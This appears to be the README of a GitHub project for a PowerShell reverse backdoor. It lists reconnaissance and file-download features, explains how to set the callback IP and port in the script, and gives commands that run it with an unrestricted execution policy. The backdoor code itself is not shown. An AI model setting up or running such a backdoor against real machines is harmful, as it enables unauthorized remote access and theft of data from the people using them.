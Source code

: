 # powershell-backdoor
A Powershell Reverse Backdoor

# Features / To Do
## Features 
* Download Files from remote system
* Fetch target computers public IP address
* List local users
* Find Intresting Files
* Get OS Information
* Get BIOS Information
* Get Anti-Virus Status
* Get Active TCP Clients
* Checks for common pentesting software installed
## To Do 
* Find Writeable Directories
* Get Windows Update Status

# Setup
Find the class Backdoor, and change the following lines 
```powershell
class Backdoor {
  # Change this to the correct ip/port
  [string]$ipAddress = "127.0.0.1"
  [int]$port = 4444
```

# Execution
```cmd
powershell.exe -File backdoor.ps1 -ExecutionPolicy Unrestricted
```
```cmd
┌──(drew㉿kali)-[/home/drew/Documents]
└─PS> ./backdoor.ps1
```
